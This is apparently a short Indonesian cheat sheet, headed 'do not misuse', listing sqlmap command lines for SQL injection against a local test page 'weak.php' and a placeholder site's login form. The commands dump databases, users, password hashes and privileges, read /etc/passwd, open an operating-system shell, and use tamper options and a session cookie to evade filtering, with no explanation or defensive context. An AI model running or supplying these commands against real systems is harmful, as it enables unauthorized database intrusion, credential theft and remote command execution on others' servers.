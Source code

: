 <h1>Jangan Disalah Gunakan</h1>
command :
</br>
python ./sqlmap.py -u "http://localhost/weak.php?id=10" --dbs
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" -b
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --users --passwords --privileges --roles --threads=10
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --current-user --is-dba --current-db --hostname --threads=10
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --file-read=/etc/passwd --threads=10
</br>
C:\xampp\htdocs
</br>
/var/www/html/
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --sql-query="select now();"
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --os-shell
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --level=3 --risk=2 --cookie="PHPSESSID:1r4fk7m10s3sj0nkbgdu1a48v0" --batch -v2 -o --keep-alive --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" --no-cast --no-escape --tamper="space2comment,between"
</br>
python sqlmap.py -u 'http://alamatwebsite/login.php'--method POST --data "username=user&password=pass"
